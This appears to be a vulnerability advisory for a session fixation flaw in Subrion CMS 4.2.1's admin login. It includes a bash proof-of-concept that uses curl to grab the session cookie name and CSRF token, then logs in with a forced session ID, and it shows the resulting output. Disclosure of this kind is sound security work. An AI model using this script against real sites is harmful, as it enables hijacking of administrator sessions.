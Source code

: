 # Admin/User Login - Session Fixation

## VulDB-Like Summary

A vulnerability has been found in the Subrion CMS 4.2.1. It has been rated as problematic. Affected by this issue is an unknown code. The manipulation of the session cookie with an arbitrary alphanumeric value prior to the login leads to a session fixation vulnerability. Using CWE to declare the problem leads to CWE-384. Impacted is integrity. An attacker might be able hijacking the user-validated session by forcing an arbitrary session ID.

The weakness was presented 04/12/2020 by Alessandro Magnosi (deadc0de) (GitHub Repository). The advisory is shared for download at github.com. This vulnerability is handled as CVE-2020-XXXX. The attack may be launched remotely. No form of authentication is required for exploitation. Technical details are known but no exploit is publicly available.

## Proof-of-Concept

**Sample affected URL**

* http://subrion.local/panel/

Submitting a valid login with a crafted session ID, causes the ID to be reflected and set as a valid session identifier.

The following script may be used to easily verify the vulnerability:

```bash
#!/bin/bash

username="admin"
password="Passw0rd!"
target="http://subrion.local/panel/"
proxy="http://127.0.0.1:8080"

# Grep Session Cookie Name
sess_cookie_name=$(curl -ks -x $proxy $target -I | grep "Set-Cookie" | head -n 1 | grep -oP "INTELLI_\w*")
# Grep CSRF Token
csrf_token=$(curl -ks -x http://127.0.0.1:8080 $target | grep "__st" | grep -oP "value=\"\K([a-zA-Z0-9]*)" | head -n 1)
# Fix the Session Cookie Value and login
curl -ks -x $proxy $target -X POST --data "__st=$csrf_token&username=$username&password=$password" -H "Cookie: loader=loaded; $sess_cookie_name=00000000000000000000000000" -i | grep "Set-Cookie"

```

Using the above script should give the following output, proving the vulnerability.

```
$ ./sess_fix.sh
Set-Cookie: INTELLI_06c8042c3d=00000000000000000000000000; expires=Sun, 12-Apr-2020 16:07:44 GMT; Max-Age=1800; path=/
Set-Cookie: salt=deleted; expires=Thu, 01-Jan-1970 00:00:01 GMT; Max-Age=0; path=/
```


## Remediation

Currently, no fixes are available for this issue.

## References

*   [https://owasp.org/www-community/attacks/Session_fixation](https://owasp.org/www-community/attacks/Session_fixation)



 
